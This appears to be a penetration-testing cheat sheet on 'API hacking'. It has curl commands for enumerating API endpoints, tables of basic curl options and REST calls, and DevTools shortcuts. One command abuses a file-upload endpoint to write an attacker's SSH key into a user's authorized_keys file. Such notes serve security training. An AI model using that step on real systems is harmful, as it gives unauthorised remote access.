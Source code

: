 # API Hacking

### Mindmap: https://github.com/Cyber-Guy1/API-SecurityEmpire/tree/main

## API Enumeration

    curl -sv http://DOMAIN.LOCAL/api (Enumerate all API endpoints)
    curl -sv http://DOMAIN.LOCAL/api --cookie "PHPSESSID=SESSION\_NUM" | jq (Authenticated api access)
    curl -H 'Content-Type: multipart/form-data' -F file'@//home/ATTACKER/.ssh/id_rsapub.txt' -F filename='/home/USER/.ssh/authorized_keys' http://api.local/file-upload (Upload a file with cURL)

### cURL

| **Command**                                                                                                       | **Description**                                      |
| ----------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------- |
|  `curl -h`                                                                                                        | cURL help menu                                       |
|  `curl inlanefreight.com`                                                                                         | Basic GET request                                    |
|  `curl -s -O inlanefreight.com/index.html`                                                                        | Download file                                        |
|  `curl -k https://inlanefreight.com`                                                                              | Skip HTTPS (SSL) certificate validation              |
|  `curl inlanefreight.com -v`                                                                                      | Print full HTTP request/response details             |
|  `curl -I https://www.inlanefreight.com`                                                                          | Send HEAD request (only prints response headers)     |
|  `curl -i https://www.inlanefreight.com`                                                                          | Print response headers and response body             |
|  `curl https://www.inlanefreight.com -A 'Mozilla/5.0'`                                                            | Set User-Agent header                                |
|  `curl -u admin:admin http://<SERVER_IP>:<PORT>/`                                                                 | Set HTTP basic authorization credentials             |
|  `curl http://admin:admin@<SERVER_IP>:<PORT>/`                                                                    | Pass HTTP basic authorization credentials in the URL |
|  `curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/`                                     | Set request header                                   |
|  `curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'`                                                          | Pass GET parameters                                  |
|  `curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/`                                     | Send POST request with POST data                     |
|  `curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/`                                      | Set request cookies                                  |
|  `curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php` | Send POST request with JSON data                     |

### APIs

| **Command**                                                                                                                                              | **Description**       |
| -------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------- |
|  `curl http://<SERVER_IP>:<PORT>/api.php/city/london`                                                                                                    | Read entry            |
|  `curl -s http://<SERVER_IP>:<PORT>/api.php/city/ \| jq`                                                                                                 | Read all entries      |
|  `curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'`          | Create (add) entry    |
|  `curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'` | Update (modify) entry |
|  `curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City`                                                                                    | Delete entry          |

### Browser DevTools

| **Shortcut**                   | **Description**  |
| ------------------------------ | ---------------- |
|  \[`CTRL+SHIFT+I`] or \[`F12`] | Show devtools    |
|  \[`CTRL+SHIFT+E`]             | Show Network tab |
|  \[`CTRL+SHIFT+K`]             | Show Console tab |
